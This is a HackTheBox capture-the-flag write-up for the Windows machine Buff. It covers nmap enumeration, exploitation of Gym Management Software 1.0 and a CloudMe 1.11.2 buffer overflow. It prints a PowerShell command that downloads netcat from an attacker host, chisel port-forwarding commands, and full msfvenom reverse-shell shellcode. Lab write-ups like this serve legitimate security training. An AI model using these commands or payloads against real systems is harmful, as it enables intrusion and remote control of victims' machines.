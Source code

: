 ```yaml
---
title: "HackTheBox - Buff"
author: Nasrallah
description: ""
date: 2023-03-07 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, tunneling, rce, chisel]
img_path: /assets/img/hackthebox/machines/buff
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

![](0.png)

# **Description**

Hello hackers, I hope you are doing well. We are doing [Buff](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). This is an easy machine box with a vulnerable management system that we exploit to get foothold. Once in we find another vulnerable service listening on a local port so we use port forwarding to be able to access the service and exploit it to get root.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.198
Host is up (0.45s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

There is only on open port and it is 8080 running n Apache http web server.


## Web

Let's navigate to the webpage.

![](1.png)

Here we have a website about fitness, let's check the tabs at the top.

![](2.png)

On the contact page, we see the the website uses `Gym Management Software 1.0`.

Searching for this management software we find it is vulnerable to an [Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/48506)

![](4.png)


# **Foothold**

Let's download the exploit and use it.

![](3.png)

We got command execution, but the shell is not interactive and we can't change directories.

Let's upload copy of netcat and get a reverse shell.

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.17.90/ncat.exe','nc.exe')"
```

![](5.png)

Great! Let's move on.


# **Privilege Escalation**

Checking shaun's home directories we find the following

![](6.png)

There is a `CloudMe_1112.exe` executable in the Downloads directory.

Also checking listening port with `netstat -an` we see a port listening at 8888 which is CloudMe.

![](7.png)

Let's do a port forward using chisel.

On our local machine, we set up a chisel server with the following command:

```bash
./chisel server --reverse --port 9002
```

After uploading a copy of chisel to the target, we connect to the server with the following command:

```bash
.\chisel.exe client 10.10.10.10:9002 R:8888:localhost:8888
```

![](9.png)

The version of CloudMe(1.11.2) is vulnerable to a [Buffer Overflow](https://www.exploit-db.com/exploits/48389) that we can exploit to get command execution.

![](8.png)

Let's download the exploit and edit it.

The first thing we should do is generate a stageless reverse shell payload using msfvenom.

```bash
└──╼ $ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.17.90 LPORT=9999 -b '\x00\x0A\x0D' -f python -v payload                                 130 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xbf\xd1\xbc\x30\x95\xda\xcd\xd9\x74\x24\xf4"
payload += b"\x5a\x2b\xc9\xb1\x52\x83\xea\xfc\x31\x7a\x0e"
payload += b"\x03\xab\xb2\xd2\x60\xb7\x23\x90\x8b\x47\xb4"
payload += b"\xf5\x02\xa2\x85\x35\x70\xa7\xb6\x85\xf2\xe5"
payload += b"\x3a\x6d\x56\x1d\xc8\x03\x7f\x12\x79\xa9\x59"
payload += b"\x1d\x7a\x82\x9a\x3c\xf8\xd9\xce\x9e\xc1\x11"
payload += b"\x03\xdf\x06\x4f\xee\x8d\xdf\x1b\x5d\x21\x6b"
payload += b"\x51\x5e\xca\x27\x77\xe6\x2f\xff\x76\xc7\xfe"
payload += b"\x8b\x20\xc7\x01\x5f\x59\x4e\x19\xbc\x64\x18"
payload += b"\x92\x76\x12\x9b\x72\x47\xdb\x30\xbb\x67\x2e"
payload += b"\x48\xfc\x40\xd1\x3f\xf4\xb2\x6c\x38\xc3\xc9"
payload += b"\xaa\xcd\xd7\x6a\x38\x75\x33\x8a\xed\xe0\xb0"
payload += b"\x80\x5a\x66\x9e\x84\x5d\xab\x95\xb1\xd6\x4a"
payload += b"\x79\x30\xac\x68\x5d\x18\x76\x10\xc4\xc4\xd9"
payload += b"\x2d\x16\xa7\x86\x8b\x5d\x4a\xd2\xa1\x3c\x03"
payload += b"\x17\x88\xbe\xd3\x3f\x9b\xcd\xe1\xe0\x37\x59"
payload += b"\x4a\x68\x9e\x9e\xad\x43\x66\x30\x50\x6c\x97"
payload += b"\x19\x97\x38\xc7\x31\x3e\x41\x8c\xc1\xbf\x94"
payload += b"\x03\x91\x6f\x47\xe4\x41\xd0\x37\x8c\x8b\xdf"
payload += b"\x68\xac\xb4\x35\x01\x47\x4f\xde\x24\x92\x5e"
payload += b"\x44\x51\xa0\x60\x5f\xae\x2d\x86\xf5\xa0\x7b"
payload += b"\x11\x62\x58\x26\xe9\x13\xa5\xfc\x94\x14\x2d"
payload += b"\xf3\x69\xda\xc6\x7e\x79\x8b\x26\x35\x23\x1a"
payload += b"\x38\xe3\x4b\xc0\xab\x68\x8b\x8f\xd7\x26\xdc"
payload += b"\xd8\x26\x3f\x88\xf4\x11\xe9\xae\x04\xc7\xd2"
payload += b"\x6a\xd3\x34\xdc\x73\x96\x01\xfa\x63\x6e\x89"
payload += b"\x46\xd7\x3e\xdc\x10\x81\xf8\xb6\xd2\x7b\x53"
payload += b"\x64\xbd\xeb\x22\x46\x7e\x6d\x2b\x83\x08\x91"
payload += b"\x9a\x7a\x4d\xae\x13\xeb\x59\xd7\x49\x8b\xa6"
payload += b"\x02\xca\xbb\xec\x0e\x7b\x54\xa9\xdb\x39\x39"
payload += b"\x4a\x36\x7d\x44\xc9\xb2\xfe\xb3\xd1\xb7\xfb"
payload += b"\xf8\x55\x24\x76\x90\x33\x4a\x25\x91\x11"
```

We copy this newly generated payload and replace the one in the exploit with it.

After that we setup a listener and run the exploit.

![](10.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).